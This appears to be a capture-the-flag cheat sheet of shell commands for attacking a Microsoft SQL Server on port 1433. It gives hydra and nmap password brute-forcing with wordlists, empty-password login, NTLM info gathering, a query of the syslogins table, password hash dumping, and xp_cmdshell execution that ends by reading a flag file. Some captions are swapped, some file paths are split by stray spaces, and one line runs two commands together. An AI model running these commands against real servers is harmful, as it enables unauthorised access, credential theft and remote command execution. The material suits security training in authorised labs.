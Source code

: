 > Password brute forcing using metasploit

```Shell
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <ip-address> mysql
```

> Brute force using hydra.

```Shell
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <ip-address>
```

> The command retrieves NTLM authentication information from the Microsoft SQL Server instance running on port 1433 of the target IP.

```Shell
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Deskt p/wordlist/100-common-p asswords.txt <ip-address>
```

> Brute Force using NMAP.\

```Shell
nmap -p 1433 --script ms-sql-empty-password <ip-address>
```

> Login through empty password.

```Shell
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" <ip-address> -oN output.txt gvim output.txt
```

> The command runs a SQL query (`SELECT * FROM master..syslogins`) on the Microsoft SQL Server instance using the `admin` credentials with password `anamaria`, saves the output to `output.txt`, and then opens this file in `gvim`.

```Shell
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria <ip-address>
```

> The command retrieves password hashes from the Microsoft SQL Server using the provided `admin` credentials with password `anamaria`.

```Shell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" <ip-address>
```

> The command executes the `ipconfig` command on the Microsoft SQL Server at `<ip-address>` using the `admin` credentials with password `anamaria` and the `xp_cmdshell` stored procedure.

```Shell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <ip-address>
```

> The command runs `type c:\flag.txt` on the Microsoft SQL Server at using the `admin` credentials with password `anamaria`, which attempts to read and display the contents of `c:\flag.txt` via the `xp_cmdshell` procedure.
